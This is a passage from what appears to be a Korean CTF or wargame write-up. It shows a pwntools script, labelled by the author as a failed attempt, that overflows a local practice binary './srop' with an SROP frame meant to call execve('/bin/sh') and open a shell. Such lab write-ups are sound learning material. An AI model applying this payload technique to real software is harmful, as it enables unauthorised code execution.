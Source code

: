 이거라 생각하고 익스플로잇 코드를 짜서 보내봤는데 실패했다.  

<br>

**실패 익스플로잇 코드**

```python
from pwn import *

p = process('./srop')
e = ELF('./srop')

binsh = 0x7ffff7dcb42f
gadget_addr = e.symbols['gadget']

print('gadget addr : ', hex(gadget_addr))

payload = b'A' * 24
payload += p64(gadget_addr)
payload += p64(15)

# r8~r15
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)

# rdi
payload += p64(binsh) 

# rsi ~ rdx
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)

# rax
payload += p64(59)

# rcx, rsp
payload += p64(0)
payload += p64(0)

# rip
payload += p64(gadget_addr)

p.send(payload)
p.interactive()
```

